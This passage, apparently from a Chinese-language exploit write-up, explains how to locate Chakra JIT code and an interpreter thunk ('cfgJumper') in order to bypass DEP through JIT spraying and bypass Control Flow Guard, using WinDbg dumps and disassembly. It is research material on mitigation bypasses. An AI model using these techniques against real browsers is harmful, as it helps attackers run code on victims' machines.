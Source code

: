 
这个函数的指针可以通过CFG检查，同时，这个函数在jmpecx之前，并没有对ecx的指针其进行CFG检查。所以，这个入口函数实际上相当于一个可以跳往任意地址的跳板。下面我们姑且将其称作“cfgJumper”。

# 0x05 定位JIT内存和“cfgJumper”

* * *

要利用JITSpray绕过DEP和利用“cfgJumper”绕过CFG，就需要定位JIT编译后的代码和“cfgJumper”，有趣的是，找到它们的方法几乎是相同的。

在JavaScript中所写的任何一个函数，都对应一个Js::ScriptFunction对象。每个Js::ScriptFunction对象又包含着一个Js::FunctionBody对象。Js::FunctionBody对象中保存着调用这个JavaScript函数时实际会执行的内存指针。

如果一个函数未被调用过，那么它的Js::FunctionBody中存放的实际内存指针是Js::InterpreterStackFrame::DelayDynamicInterpreterThunk：

    
    
    0:002> dc 0b89de70 l 8
    0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
    0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
    0:002> dc 0b8d0000 l 8
    0b8d0000  6ff6c970 70181720 00000001 00000000  p..o ..p........
    0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
    0:002> u 70181720 l 1
    Chakra!Js::InterpreterStackFrame::DelayDynamicInterpreterThunk:
    70181720 55              push    ebp
    

如果一个函数被调用过，但没有被编译为JIT代码，仍然是解释执行，那么它的Js::FunctionBody中存放的实际内存指针是“cfgJumper”：

    
    
    0:002> dc 0b89de70 l 8
    0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
    0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
    0:002> dc 0b8d0000 l 8
    0b8d0000  6ff6c970 00860000 00000001 00000000  p..o............
    0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
    0:002> u 00860000
    00860000 55          push  ebp
    00860001 8bec        mov   ebp,esp
    00860003 8b4508      mov   eax,dword ptr [ebp+8]
    00860006 8b4014      mov   eax,dword ptr [eax+14h]
    00860009 8b4840      mov   ecx,dword ptr [eax+40h]
    0086000c 8d4508      lea   eax,[ebp+8]
    0086000f 50          push  eax
    00860010 b800240870  mov   70082400h ; Chakra!Js::InterpreterStackFrame::InterpreterThunk
    

如果一个函数被循环调用多次，导致Chakra引擎将其编译为JIT代码，那么它的Js::FunctionBody中存放的实际内存指针就是该函数编译后的JIT代码指针：

    
    
    0:002> d 0b89de70 l8
    0b89de70  6ff72808 0b89de40 00000000 00000000  .(.o@...........
    0b89de80  70523168 0b8d0000 7041f35c 00000000  h1Rp....\.Ap....
    0:002> d 0b8d0000 l8
    0b8d0000  6ff6c970 00950000 00000001 00000000  p..o............
    0b8d0010  0b8d0000 000001b8 072cc7e0 0b418ea0  ..........,...A.
    0:002> u 00950000
    00950000 55              push    ebp
    00950001 8bec            mov     ebp,esp
    00950003 81fc44c9120b    cmp     esp,0B12C944h
    00950009 7f18            jg      00950023
    0095000b 6a00            push    0
    0095000d 6a00            push    0
    0095000f 68e0c72c07      push    72CC7E0h
    00950014 6844090000      push    944h
    